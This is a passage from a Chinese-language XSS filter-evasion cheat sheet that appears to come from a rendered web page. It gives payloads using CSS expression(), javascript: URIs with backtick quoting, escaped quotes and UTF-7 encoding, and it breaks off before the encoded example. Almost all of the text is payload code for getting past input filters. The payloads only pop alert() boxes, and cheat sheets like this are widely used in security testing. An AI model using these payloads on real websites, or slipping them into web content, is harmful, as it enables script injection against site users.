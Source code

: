     <STYLE> a { width: expression(alert('XSS')) } </STYLE>
[/code]



**还有一种方式**

[code]

    <DIV STYLE="width: expression(alert('XSS'));">
[/code]



** **

**使用双引号**

**如果你需要使用双引号和单引号。使用一些诡异的用法把。。**

[code]

    <IMG SRC=`javascript:alert("Look its, 'XSS'")`>
[/code]



**转义字符**

**转义字符有时候很有用，可以对付一些简单的过滤器**

[code]

    <IMG SRC=`javascript:alert(\"XSS\")`>
[/code]



**结果如下:**

[code]

    <IMG SRC=`javascript:alert(\\"XSS\\")`>
[/code]





**编码**

**使用 utf-7 编码可以绕过**

**比如**

[code]

    <script>alert("XSS")</script>
[/code]



**使用 UTF-7 编码后:**

[code]
